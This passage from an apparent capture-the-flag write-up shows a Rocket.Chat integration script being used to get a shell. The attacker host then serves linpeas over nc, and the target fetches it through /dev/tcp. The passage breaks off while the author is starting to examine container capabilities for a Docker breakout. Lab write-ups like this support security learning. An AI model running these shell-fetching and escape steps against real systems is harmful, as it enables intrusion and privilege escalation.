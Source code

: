 ```bash
Event Trigger: user left room
Enabled: On
Channel: @bob
Post as: bob
URL: http://10.10.16.2
Script Enabled: True
```

![image.png]({{ site.baseurl }}/assets/talkative/image%2032.png)

Now save changes. Now go back to rocket chat, let’s leave room. 

![image.png]({{ site.baseurl }}/assets/talkative/image%2033.png)

We now have shell:

![image.png]({{ site.baseurl }}/assets/talkative/image%2034.png)

Since we are already root on the container, our goal now is to break out the container.

Let’s enumerate the host with linpeas:

```bash
#on attack host
nc -lnvp 8002 < linpeas.sh

#target
cat < /dev/tcp/10.10.16.2/8002 > linpeas.sh
```

Now execute it:

```bash
chmod +x linpeas.sh

./linpeas.sh
```

Interesting finds:

```bash
═╣ Shared mount points ........... ══╣ Capability Checks
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation/capabilities-abuse-escape.html
═╣ Dangerous capabilities ......... CapInh: 0000000000000000
CapPrm: 00000000a80425fd
CapEff: 00000000a80425fd
CapBnd: 00000000a80425fd
CapAmb: 0000000000000000
Run capsh --decode=<hex> to decode the capabilities

```

The one we are interested in is CapEff (Capabilities Effective): current active capabilities the process is using right now. We can decode what those capabilities are with capsh on our host machine:
